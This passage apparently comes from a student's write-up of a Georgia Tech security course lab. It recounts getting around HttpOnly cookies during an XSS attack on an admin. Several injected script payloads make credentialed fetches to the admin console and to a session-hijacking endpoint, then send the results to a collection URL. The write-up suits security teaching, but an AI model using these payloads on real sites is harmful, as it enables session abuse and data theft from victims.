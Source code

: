 **Result:** The exfiltrated cookie was either empty or didn't include the session cookie.

**Realization:** HttpOnly cookies are specifically designed to prevent JavaScript access. They're sent automatically by the browser with requests, but `document.cookie` can't read them.

## Breakthrough #1: Using the Cookie Without Stealing It

The key insight: **I don't need to steal the cookie if I can use it.**

When JavaScript makes a `fetch` request to the same origin with `credentials: 'include'`, the browser automatically attaches all cookies, including HttpOnly ones:

```javascript
fetch("https://cs6262.gtisc.gatech.edu/some-endpoint", {
  credentials: "include", // Browser sends cookies automatically
});
```

This meant I could make authenticated requests as the admin without ever seeing their cookie.

### Testing the Concept

I tested this with a simple payload:

```javascript
<script>
window.gotYou = true;
fetch('https://cs6262.gtisc.gatech.edu/console', {
    credentials: 'include'
})
.then(res => res.text())
.then(html => {
    fetch('https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065', {
        method: 'POST',
        body: 'console_html_length=' + html.length
    });
});
</script>
```

**Result:** Successfully received the length of the admin console HTML, confirming the request was authenticated.

## Stuck Point #1: CSRF Protection

My next attempt was to directly fetch the session hijacking endpoint:

```javascript
<script>
window.gotYou = true;
fetch('https://cs6262.gtisc.gatech.edu/session-hijacking/gguruvelli3', {
    method: 'POST',
    credentials: 'include'
})
.then(res => res.json())
.then(data => {
    fetch('https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065', {
        method: 'POST',
        body: 'hash=' + data.hash
    });
});
</script>
```

